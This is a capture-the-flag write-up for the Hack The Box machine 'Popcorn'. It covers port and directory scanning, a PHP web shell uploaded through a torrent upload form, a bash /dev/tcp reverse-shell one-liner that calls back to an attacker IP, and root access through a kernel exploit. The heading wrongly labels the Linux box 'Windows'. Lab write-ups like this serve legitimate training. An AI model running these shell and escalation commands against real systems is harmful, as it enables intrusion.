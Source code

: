 # Machine - Medium Windows - Popcorn

IP 10.10.10.6 

## Contents

- [Tools](#tools)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Priviledge Escalation](#priviledge-escalation)

## Tools

- Nmap
- gobuster / dirb / dirbuster
- Burp Suite Community Edition / OWASP ZAP
- NetCat
- linux-exploit-suggester.sh /SearchExploit (OFFSEC exploitDB) / Google

## Enumeration

- Nmap with `nmap -A 10.10.10.6` gives two open ports, port 22 for ssh and 80 for http.
- On port 80 running gobuster with `gobuster dir -u http://10.10.10.6 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40` gives some links as output. Output shows some links, `/test`, `/index`, `/torrent` etc.
- `/test` page shows `phpinfo` allowed file upload.
- On `/torrent` page we can see sign up and log in option. 


## Exploitation

- After loggin in we can use the upload option. During uploading torrent file, we can modify filename and filecontent to php shell code with burp suite or OWASP ZAP.
- We can goto `/torrent/upload` directory to get our file and simple `curl http://10.10.10.6/torrent/upload/3like1share3folllow3subscribe7.php?test=whoami` will execute command on the server.
- Running netcat client on host with `nc -lvnp 1337` and command `curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php --data-urlencode "test=bash -c 'bash -i >& /dev/tcp/10.10.14.100/1337 0>&1'"` will give us shell as user `www-data`.
- Now we can simply get `user.txt` as `www-data` for user `george` with command `cat /home/george/user.txt`.
  ```bash
  www-data@popcorn: ls /home
  george
  www-data@popcorn: cat /home/george/user.txt
  userflaglikesharesubscribefollow
  ```

## Priviledge Escalation

- After importing linux-exploit-suggester.sh we can get a lot of priviledge escalation exploits.
- One of them is full-nelson (http://vulnfactory.org/exploits/full-nelson.c). After importing it to the machine, we can compile it with `gcc full-nelson.c -o full-nelson`.
- Then We get root and root flag.
  ```bash
  www-data@popcorn:tmp$ gcc full-nelson.c - exploit
  gcc full-nelson.c - exploit
  www-data@popcorn:tmp$ chmod +x exploit
  chmod +x exploit
  www-data@popcorn:tmp$ ./exploit
  www-data@popcorn:tmp$ ./exploit
  www-data@popcorn:tmp$ ./exploit
  ./exploit
  id
  uid=0(root) gid=0(root)
  cat /root/root.txt
  rootflaglikesharesubscribefollow
  ```
- Also dirtycow, motd and many other exploits are possible. As the server kernel version is too old.

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)

